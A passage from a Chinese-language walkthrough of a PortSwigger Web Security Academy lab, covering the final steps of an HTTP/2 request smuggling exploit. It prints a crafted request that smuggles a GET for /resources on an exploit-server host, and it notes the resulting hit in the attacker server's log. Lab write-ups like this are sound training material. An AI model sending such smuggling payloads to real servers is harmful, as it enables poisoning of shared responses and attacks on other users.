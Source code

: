 Step 6：随后修改之前的请求数据包去请求恶意服务器上的 resouces 文件

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0
GET /resources HTTP/1.1
Host: exploit-0ac2009903692136853e1b6701c3001b.exploit-server.net
Content-Length: 6
x=1
```

![img](assets/1706773318-589faa743c1d0f80bdea37ee890093d9.png)

随后我们可以在恶意服务器端的日志中看到有来自目标靶机的请求记录：

![img](assets/1706773318-66ebb00a618e8bb87380a9c5ed68b0c5.png)

Step 7：随后完成解题

![img](assets/1706773318-0694c982c400fb5b5403ca4cf4f9fbb8.jpg)

